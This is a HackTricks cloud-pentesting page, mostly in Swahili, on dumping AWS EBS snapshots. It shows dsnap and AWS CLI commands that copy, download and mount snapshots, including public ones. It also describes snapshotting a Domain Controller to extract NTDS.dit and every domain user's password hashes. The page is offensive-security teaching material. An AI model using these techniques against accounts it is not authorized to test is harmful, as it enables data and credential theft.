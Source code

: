 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kuangalia snapshot kwa ndani
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Kumbuka** kwamba `dsnap` haitakuruhusu kupakua snapshots za umma. Ili kuzunguka hili, unaweza kufanya nakala ya snapshot katika akaunti yako binafsi, na kupakua hiyo:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Kwa maelezo zaidi kuhusu mbinu hii angalia utafiti wa asili katika [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Unaweza kufanya hivi na Pacu ukitumia moduli [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Kuangalia snapshot katika AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Iweke kwenye VM ya EC2 chini ya udhibiti wako** (inapaswa kuwa katika eneo moja na nakala ya nakala ya akiba):

Hatua ya 1: Kiasi kipya cha ukubwa na aina unayopendelea kinapaswa kuundwa kwa kuelekea EC2 –> Volumes.

Ili uweze kufanya hatua hii, fuata amri hizi:

* Unda kiasi cha EBS kuunganisha na mfano wa EC2.
* Hakikisha kwamba kiasi cha EBS na mfano viko katika eneo moja.

Hatua ya 2: Chaguo la "unganishi kiasi" linapaswa kuchaguliwa kwa kubonyeza kulia kwenye kiasi kilichoundwa.

Hatua ya 3: Mfano kutoka kwenye kisanduku cha maandiko ya mfano unapaswa kuchaguliwa.

Ili uweze kufanya hatua hii, tumia amri ifuatayo:

* Unganisha kiasi cha EBS.

Hatua ya 4: Ingia kwenye mfano wa EC2 na orodhesha diski zinazopatikana kwa kutumia amri `lsblk`.

Hatua ya 5: Angalia kama kiasi kina data yoyote kwa kutumia amri `sudo file -s /dev/xvdf`.

Ikiwa matokeo ya amri hapo juu yanaonyesha "/dev/xvdf: data", inamaanisha kwamba kiasi ni tupu.

Hatua ya 6: Fanya mfumo wa kiasi kuwa ext4 kwa kutumia amri `sudo mkfs -t ext4 /dev/xvdf`. Vinginevyo, unaweza pia kutumia muundo wa xfs kwa kutumia amri `sudo mkfs -t xfs /dev/xvdf`. Tafadhali kumbuka kwamba unapaswa kutumia ama ext4 au xfs.

Hatua ya 7: Unda saraka ya uchaguzi wako ili kuunganisha kiasi kipya cha ext4. Kwa mfano, unaweza kutumia jina "newvolume".

Ili uweze kufanya hatua hii, tumia amri `sudo mkdir /newvolume`.

Hatua ya 8: Unganisha kiasi kwenye saraka "newvolume" kwa kutumia amri `sudo mount /dev/xvdf /newvolume/`.

Hatua ya 9: Badilisha saraka hadi saraka "newvolume" na angalia nafasi ya diski ili kuthibitisha kuunganishwa kwa kiasi.

Ili uweze kufanya hatua hii, tumia amri zifuatazo:

* Badilisha saraka hadi `/newvolume`.
* Angalia nafasi ya diski kwa kutumia amri `df -h .`. Matokeo ya amri hii yanapaswa kuonyesha nafasi ya bure katika saraka "newvolume".

Unaweza kufanya hivi na Pacu kwa kutumia moduli `ebs__explore_snapshots`.

## Kuangalia snapshot katika AWS (ukitumia cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Mtu yeyote wa AWS mwenye ruhusa ya **`EC2:CreateSnapshot`** anaweza kuiba hash za watumiaji wote wa domain kwa kuunda **snapshot ya Domain Controller** na kuikamilisha kwenye mfano wanaodhibiti na **kutoa faili ya NTDS.dit na SYSTEM** registry hive kwa matumizi na mradi wa secretsdump wa Impacket.

Unaweza kutumia chombo hiki kuendesha shambulio: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) au unaweza kutumia moja ya mbinu za awali baada ya kuunda snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
